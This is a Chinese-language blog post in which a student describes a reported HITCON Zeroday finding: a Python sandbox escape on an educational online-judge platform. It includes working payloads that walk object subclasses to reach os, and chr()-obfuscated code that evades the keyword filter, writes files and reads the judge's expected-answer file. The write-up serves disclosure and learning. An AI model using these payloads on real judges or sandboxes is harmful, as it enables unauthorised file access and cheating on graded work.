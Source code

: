 ```yaml
---
title: 'First HITCON Zeroday'
published: 2025-10-23
draft: false
tags: ['Learning', 'Zeroday', 'Online judge']
toc: true
---
```


:::note
成功拿到第一個 [Zeroday](https://zeroday.hitcon.org/vulnerability/ZD-2025-00696)！所以記錄一下~
:::

## 目標選擇

首先先來講一下為什麼會選擇這個目標。起初是因為在暑假期間第一次參加了教育部的攻擊手，基本上就是到處測試各個學校的網站有沒有漏洞，回報之後依照等級劃分可以拿到分數，最後看分數的加總排行前幾名可以拿到獎金。

![image](./images/certificate.png '結算證書')

因為我平常 CTF 主要還是以`Reverse`為主，所以這種打滲透也算是新手，好險當初有實驗室的學長(罐頭)也給我很多建議，最後也成功找到 2 個高衝擊性之漏洞。

那也因為這次的過程讓我覺得非常的有成就感，所以就想說也來看看周圍有沒有跟我教育部打的漏洞可能有關係(其中一個是 Online Judge)，這時候剛好我暑假也接了一個程式設計課程的助教，並且老師使用了一個教育部的程式練習平臺，然後這個平臺真的寫的有點x，所以就決定嘗試攻擊這個`Online Judge`了。

## 平臺介紹

![image](./images/example.png)

先簡單介紹這個平臺，這是一個程式練習的平臺，可以給老師註冊然後從題庫裡面抓題目給自己的學生練習。

![image](./images/compiler%20error.png 'Error Message')

這邊順便介紹為啥這平臺讓我覺得很瞎的地方，我們課程教學是使用 python，那時候有個題目是算多個人成績的平均，並且有一堂課是英文，所以大家很理所當然的變數名稱會使用`english`對吧，結果一堆人報錯以上的錯誤。可以理解想要阻擋`sh`，但是這樣的 filter 也太誇張 點點點。

:::warning
他就是直接判斷整段程式裡面有沒有 "sh" 不管在程式的哪個地方。基於以上這樣很明顯他的防禦手段一定有問題。
:::

## 攻擊過程 :crossed_swords:

參考了以下 github 去構築 payload。

::github{repo="jailctf/pyjailbreaker"}

這邊開始做 python jailbreak，在突破的過程中有發現可以使用下列的方式去`import os`，可是卻沒有辦法使用 `os.system()` 去呼叫我想要任意執行的 linux 指令，但可以知道的是他有執行成功沒有被攔截，可是輸出框那邊並沒有東西回傳。

```python title="os.system() 嘗試"
list_classes = object.__subclasses__()
get_func_with_sys = [cls for cls in list_classes if 'os._wrap_close' in str(cls)][0]
get_sys = get_func_with_sys.__init__.__globals__['sys']
get_o = get_sys.modules['os']
print(get_o.system('ls'))
```

這部分後續就沒有再多做嘗試，因為不管輸入什麼指令他的輸出框那邊都是黑的，所以就沒有再多做其他指令嘗試。後續轉成去嘗試使用 os 的其他用法。

```python title="os.listdir() 嘗試"
list_classes = object.__subclasses__()
get_func_with_sys = [cls for cls in list_classes if 'os._wrap_close' in str(cls)][0]
get_sys = get_func_with_sys.__init__.__globals__['sys']
get_o = get_sys.modules['os']
print(get_o.listdir('/'))
```

:::note
這樣的使用就可以把根目錄底下的檔案印出來。但他也可以根據他的檔案內容知道這是一個 docker 的容器內，但我沒有做到 docker 的逃逸，變成頂多任意讀寫 docker 內的檔案。
:::

因為看起來 os 的其他用法是可以使用的，所以我從原本的任意指令執行的目標改成嘗試任意讀寫。

### 寫檔

```python title="Write file"
[
    cls for cls in object.__subclasses__() 
    if chr(111)+chr(115)+chr(46)+chr(95)+chr(119)+chr(114)+chr(97)+chr(112)+chr(95)+chr(99)+chr(108)+chr(111)+chr(115)+chr(101) in str(cls)
][0].__init__.__globals__[
    chr(115)+chr(121)+chr(115)
].modules[
    chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)
].__dict__[
    chr(111)+chr(112)+chr(101)+chr(110)
](
    chr(47)+chr(98)+chr(111)+chr(120)+chr(47)+chr(116)+chr(101)+chr(115)+chr(116)+chr(46)+chr(116)+chr(120)+chr(116),
    chr(119)
).close()

list_classes = object.__subclasses__()
get_func_with_sys = [cls for cls in list_classes if 'os._wrap_close' in str(cls)][0]
get_sys = get_func_with_sys.__init__.__globals__['sys']
get_o = get_sys.modules['os']
print(get_o.listdir('/box'))
```

上面的寫法等效於:

```python title="Write file"
open('/box/test.txt', 'w').close()
os.listdir('/box')
```

![image](./images/listdir.png)

可以看到把`test.txt`寫進去根目錄了。

### 讀檔

也可以直接用讀檔的方式去把答案讀出來然後系統就會直接判定答案是對的。

```python title="Read file"
[
    cls for cls in object.__subclasses__() 
    if chr(111)+chr(115)+chr(46)+chr(95)+chr(119)+chr(114)+chr(97)+chr(112)+chr(95)+chr(99)+chr(108)+chr(111)+chr(115)+chr(101) in str(cls)
][0].__init__.__globals__[
    chr(115)+chr(121)+chr(115)
].modules[
    chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)
].__dict__[
    chr(112)+chr(114)+chr(105)+chr(110)+chr(116)
](
    [
        cls for cls in object.__subclasses__() 
        if chr(111)+chr(115)+chr(46)+chr(95)+chr(119)+chr(114)+chr(97)+chr(112)+chr(95)+chr(99)+chr(108)+chr(111)+chr(115)+chr(101) in str(cls)
    ][0].__init__.__globals__[
        chr(115)+chr(121)+chr(115)
    ].modules[
        chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)
    ].__dict__[
        chr(111)+chr(112)+chr(101)+chr(110)
    ](
        chr(111)+chr(117)+chr(116)+chr(112)+chr(117)+chr(116)+chr(49)+chr(46)+chr(116)+chr(120)+chr(116),
        chr(114)
    ).read()
)
```

上面的寫法等效於:

```python title="Read file"
print(open("output1.txt").read())
```

![image](./images/readfile.png)

可以看到把測資讀出來然後通過系統的檢查。